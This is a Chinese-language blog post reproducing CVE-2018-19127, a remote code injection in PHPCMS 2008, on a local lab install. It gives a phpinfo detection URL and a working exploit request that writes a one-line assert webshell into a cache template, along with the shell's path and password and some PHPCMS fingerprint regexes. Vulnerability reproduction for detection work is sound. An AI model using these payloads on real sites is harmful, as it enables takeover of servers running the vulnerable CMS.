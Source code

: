 ```yaml
---
layout:     post
title:      【复现】PHPCMS 2008远程代码注入漏洞
subtitle:   远程代码注入漏洞
date:       2019-09-18
author:     看不尽的尘埃
header-img: img/post-bg-ios9-web.jpg
catalog: 	 true
tags:
    - 漏洞复现
---
```

## 前言
最近在给公司写指纹规则、漏洞检测和利用规则，因此漏洞复现的文章更新会比较频繁。
## 0x00 漏洞介绍
* 漏洞名称：PHPCMS 2008远程代码注入漏洞
* CVE编号：CVE-2018-19127
* 发布时间：2018-11-28
* 漏洞说明：该漏洞利用向PHPCMS网站路径可控的缓存文件写入任意内容，从而可以写入PHP代码，获取网站WebShell，最终获取到网站的最高权限。
* 影响范围：PHPCMS2008 sp4 及以下版本
* 修复建议：PHPCMS 2008 官方已不再维护，建议升级到 2008 以上的版本

## 0x01 环境搭建
下载源码：[http://www.onlinedown.net/soft/1135853.htm](http://www.onlinedown.net/soft/1135853.htm)
下载完成后，打开phpstudy，解压到WWW目录下面，访问URL：
![图片](../../../../img/phpcms2008_rce_1.png)
根据提示点击安装，下图是配置数据库信息和管理员信息：
![图片](../../../../img/phpcms2008_rce_2.png)

在安装过程中遇到报错的话是mysql版本高了，毕竟这款CMS比较老了。因为TYPE和ENGINE都代表数据库引擎，但type只向下兼容，所以mysql版本太高了不兼容，所以这里需要替换所有文件中存在以下关键词的，替换成-->后面的内容就可以安装成功了：
```
TYPE=MyISAM --> ENGINE=MyISAM 
TYPE=MEMORY --> ENGINE=MEMORY
```

修改完成后，重新配置数据库信息和管理员信息，完成后提交，过五秒提示安装成功：
![图片](../../../../img/phpcms2008_rce_3.png)


## 0x02 检测与利用
### Poc(检测)代码
我通过网上的EXP修改了一下，改为了显示phpinfo信息：
```
http://127.0.0.1/phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert(phpinfo());{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```
下图说明了搭建的靶机环境确实存在该漏洞：
![图片](../../../../img/phpcms2008_rce_4.png)


### 利用(EXP)代码
```
/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss
```
以下是请求的数据包：
```
GET /phpcms/type.php?template=tag_(){};@unlink(FILE);assert($_POST[endust]);{//../rss HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Sec-Fetch-Mode: navigate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Sec-Fetch-Site: none
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
```

请求完成后，状态码为200的话，就可以尝试通过一句话客户端去连接一下：
```
连接地址：http://localhost/data/cache_template/rss.tpl.php
密码：endust
```

## 0x03 Web指纹
顺便记录一下Phpcms指纹规则：
```
1、<meta name\="generator" content=\"Phpcms (.*?)">
2、<link href="(.*)/phpcms.css(.*)>")
3、<meta content="Phpcms(.*)>")
```

## 0x04 总结
复现挺容易的，就是搭建这个环境花了一点时间，从想放弃到静下心来解决问题，而不是逃避问题，最后通过百度也成功解决了安装报错的问题。
